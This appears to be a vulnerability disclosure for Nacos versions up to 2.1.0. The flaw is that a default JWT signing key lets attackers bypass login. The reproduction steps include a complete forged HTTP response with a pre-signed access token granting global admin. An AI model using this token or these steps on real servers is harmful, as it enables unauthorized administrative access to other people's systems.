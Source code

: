 #### Vuln Impact 

An issue has been discovered in Nacos affecting Nacos <= 2.1.0.Nacos users use the default JWT key to cause an unauthorized access vulnerability. Through this vulnerability, attackers can bypass user name and password authentication and directly log in to the Nacos user

#### Vuln Product

Nacos <= 2.1.0 version

#### Vulnerability reappearance

Step 1：Go directly to Nacos website, fill in any user name and password and use Burpsuite to grab the bag.

![login](img/login.png)

Step 2：Intercept the response packet.

![response](img/response.png)

Step 3: Modify the data packet as follows

```javascript
HTTP/1.1 200
Date: Thu, 10 Nov 2022 01:27:16 GMT
Content-Type: application/json
Content-Length: 13
Connection: close
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Content-Security-Policy: script-src 'self'
Server: elb

{"accessToken":"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYxODEyMzY5N30.nyooAL4OMdiByXocu8kL1ooXd1IeKj6wQZwIH8nmcNA","tokenTtl":18000,"globalAdmin":true}
```

![new](img/new.png)

Step 4: Log in successfully after releasing the data packet.

![success](img/success.png)



